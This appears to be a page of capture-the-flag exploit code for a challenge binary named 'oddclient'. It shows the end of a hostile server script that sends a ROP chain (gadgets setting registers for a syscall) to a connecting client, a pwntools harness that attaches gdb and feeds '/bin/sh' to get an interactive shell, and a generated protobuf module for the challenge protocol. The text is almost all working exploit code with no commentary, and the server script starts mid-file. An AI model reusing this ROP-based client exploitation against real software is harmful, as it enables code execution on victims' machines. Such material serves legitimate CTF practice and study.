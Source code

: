 ```python
                payload +=b'ab15660000000000' # rdx = 0
                payload +=b'0000000000000000'
                payload +=b'0000000000000000'
                payload +=b'c0b1650000000000' # syscall_ret

                send(client_socket,875704370,0x13370005,0x2,payload)
                recv(client_socket)

if __name__ == "__main__":
    HOST = '0.0.0.0'
    PORT = 12345
    start_server(HOST, PORT)
```
```python
# client.py
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    # arch = "i386",
    log_level="debug",
)
def debug(io):
    gdb.attach(io,
'''
b *0x54688a
'''
)

io = process("./oddclient")
debug(io)
io.sendlineafter(b'ip: ','0.0.0.0')
io.sendlineafter(b'port: ','12345')
io.sendline(b'/bin/sh\x00')

io.interactive()
```
```python
# odd_pb2.py
# -*- coding: utf-8 -*-
# Generated by the protocol buffer compiler.  DO NOT EDIT!
# source: odd.proto
"""Generated protocol buffer code."""
from google.protobuf.internal import builder as _builder
from google.protobuf import descriptor as _descriptor
from google.protobuf import descriptor_pool as _descriptor_pool
from google.protobuf import symbol_database as _symbol_database
# @@protoc_insertion_point(imports)

_sym_db = _symbol_database.Default()




DESCRIPTOR = _descriptor_pool.Default().AddSerializedFile(b'\n\todd.proto\"L\n\x07Message\x12\r\n\x05magic\x18\x01 \x01(\x05\x12\x0b\n\x03seq\x18\x02 \x01(\x05\x12\x17\n\x06opcode\x18\x03 \x01(\x0e\x32\x07.Opcode\x12\x0c\n\x04\x63ont\x18\x04 \x01(\x0c*>\n\x06Opcode\x12\x0c\n\x08OP_HELLO\x10\x00\x12\x0e\n\nOP_SESSION\x10\x01\x12\n\n\x06OP_MSG\x10\x02\x12\n\n\x06OP_END\x10\x03\x62\x06proto3')

_builder.BuildMessageAndEnumDescriptors(DESCRIPTOR, globals())
_builder.BuildTopDescriptorsAndMessages(DESCRIPTOR, 'odd_pb2', globals())
if _descriptor._USE_C_DESCRIPTORS == False:

```